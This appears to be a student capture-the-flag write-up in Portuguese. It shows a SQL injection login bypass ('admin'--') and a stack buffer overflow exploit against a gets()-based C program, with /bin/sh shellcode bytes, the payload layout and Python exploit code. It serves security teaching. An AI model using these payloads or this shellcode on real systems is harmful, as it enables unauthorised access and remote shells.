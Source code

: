 # CTF 4 - Semana 8

## Primeira parte

Inicialmente exploramos os ficheiros disponibilizados na plataforma CTF que são os mesmos que estão a ser executados no servidor na porta 5003. <br>
Verificamos que a base de dados usada é SQLite3 e quando o username é 'admin' o conteúdo do ficheiro `flag.txt` é mostrado na página web. Na parte do login a query utilizada é frágil pois o servidor cria o comando dinamicamente com as strings não sanitizadas do input do utilizador:

```php
$username = $_POST['username'];
$password = $_POST['password'];             
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

Ao usarmos o input "admin'--" através de SQL Injection garantimos o acesso privilegiado, pois todo a verificação da palavra chave torna-se irrelevante uma vez que é comentada. Assim, o código executado do lado do servidor passou a ser o seguinte:

```sql
SELECT username FROM user WHERE username = 'admin'-- AND password = $password
```

Tal como esperado, conseguimos fazer login com a conta do administrador e assim ter acesso ao conteúdo do ficheiro `flag.txt` e à flag do desafio, `flag{ac3aa6c08d2bd43bc74361ad039139fd}`.

![CTF 4 1](../img/ctf4task1.png)

## Segunda parte

Com o comando **checksec** verificamos que `program` (main.c compilado) não tem o binário randomizado nem existem proteções do endereço de retorno usando canários. 

![CTF 4 2 a](../img/ctf4task2a.png)

Também tivemos acesso ao código fonte que está a ser executados no servidor na porta 4001:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[100];

    printf("Try to control this program.\n");
    printf("Your buffer is %p.\n", buffer);
    printf("Give me your input:\n");
    fflush(stdout);
   
    gets(buffer);
    
    return 0;
}
```

A função `gets` é insegura pois copia para `buffer` todo o input de stdin até atingir um `\0`. Assim, uma vez que a stack tem permissões de execução e os seus endereços não estão randomizados, é possível fazer um buffer overflow para controlar o endereço de retorno da função main.

Para construir o exploit usamos a linguagem Python e o mesmo shell code de CTFs anteriores que permitia lançar uma bash no terminal. Além disso, foi útil utilizar uma expressão regular para extrair o valor do endereço de buffer.

```python
ADDRESS_REGEX = "0x(.+).\n"
SHELL_CODE = (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
  "\x0b\xcd\x80" 
).encode('latin-1')
```

O input terá exatamente 112 bytes: 100 bytes para atingir o máximo espaço de memória alocada em buffer e 12 bytes para dar overflow a 3 endereços:
- O endereço da variável passada à função printf;
- O frame-pointer de main;
- O endereço de retorno da main;

O exploit terá a seguinte estrutura:

- Os primeiros 23 bytes contêm o shell code;
- Os últimos 4 bytes contêm o endereço de retorno malicioso, que irá corresponder ao endereço do início do buffer;
- Os restantes bytes intermédios terão NOP (*no operation*). 

```python
content = ctf_server.recvuntil(b'input:').decode()
buffer_address = bytearray.fromhex(re.search(ADDRESS_REGEX, content).group(1))
buffer_address.reverse()

exploit = bytearray(NOP for _ in range(BUFFER_SIZE)) 
exploit[: len(SHELL_CODE)] = SHELL_CODE
exploit[BUFFER_SIZE - len(buffer_address):] = buffer_address
```

Isto irá reescrever o endereço de retorno da função main, que apontará agora para o shell code. Note-se que este processo também reescreve o frame pointer de main e o endereço do argumento de printf, que estão na stack entre o endereço de retorno e o buffer. No entanto, como main não chega a retornar, a manutenção dos valores originais torna-se irrelevante.

Tal como esperado, ao executar o código (disponível [aqui](../CTF/Exploits/Semana08.py)), conseguimos abrir uma bash no servidor:

![CTF 4 2 b](../img/ctf4task2b.png)

Conseguimos assim ter acesso ao conteúdo do ficheiro `flag.txt` e à flag do desafio, `flag{a4421b76e3dfc304875754a99497e1f1}`.
